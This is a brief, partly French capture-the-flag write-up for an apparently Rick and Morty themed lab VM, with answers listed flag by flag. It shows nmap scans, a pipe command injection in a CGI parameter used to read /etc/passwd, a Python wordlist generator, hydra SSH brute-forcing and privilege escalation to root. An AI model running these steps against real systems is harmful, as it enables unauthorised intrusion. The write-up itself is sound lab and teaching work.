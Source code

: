 +++
title = "write up de wil"
weight = 0

[extra]
author = "wil"
points = 130
+++

``` sh
nmap 192.168.1.17 -O -sV -p- -T5
```

----------

nmap -> port ftp open anonymous = **FLAG{Whoa this is unexpected} - 10 Points**

----------

nmap port 13337 -> **FLAG{TheyFoundMyBackDoorMorty}-10Points**

----------

dirb port 80 == /password/ == **FLAG{Yeah d- just don't do it.} - 10 Points**

----------

admin panel on port 9090 == **FLAG{There is no Zeus, in your face!} - 10 Points**

----------

``` sh
telnet 192.168.1.17 60000
```

-> **FLAG{Flip the pickle Morty!} - 10 Points**

----------

robots.txt == `http://host/cgi-bin/tracertool.cgi?ip= |` (**cat** is changed so **more**)

``` sh
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
```

No login ssh so trying with source-code hint (*winter* + *Summer* as ftp
credential -> **FLAG{Get off the high road Summer!} - 10 Points**

----------

Connecting via ssh port 22222/tcp open ssh OpenSSH 7.5 (protocol 2.0) with
Summer/winter. Head sur l'image pour voir un password unzip le fichier flag
avec ce password (Meeseek) -> **FLAG{131333} - 20 points**

----------

New tips safe binary in /home/RickSanchez/RICKS_SAFE so scp+gdb+drop euid via
cp /tmp == 131333 needed argv == decrypt:
**FLAG{And Awwwaaaaayyyy we Go!} - 20 Points**

----------

Depuis le hint qui indique qu'on va devoir bf l'user RickSanchez j'ai fais
une wordlist via un script python et donc ->

``` sh
hydra -l RickSanchez -P wordlist ssh://192.168.1.17 -s 22222
```

->
**P7Curtains**

----------

``` sh
sudo su
```

as RickSanchez . flag root ->
**FLAG{Ionic Defibrillator} - 30 points**

----------

``` sh
Script py :
import string

mystring = list(string.ascii_uppercase)
nw = ["The", "Flesh", "Curtains"]

for w in nw:
    for i in range(100):
        for l in mystring:
            print("%s%s%s"% (l,i,w))
```
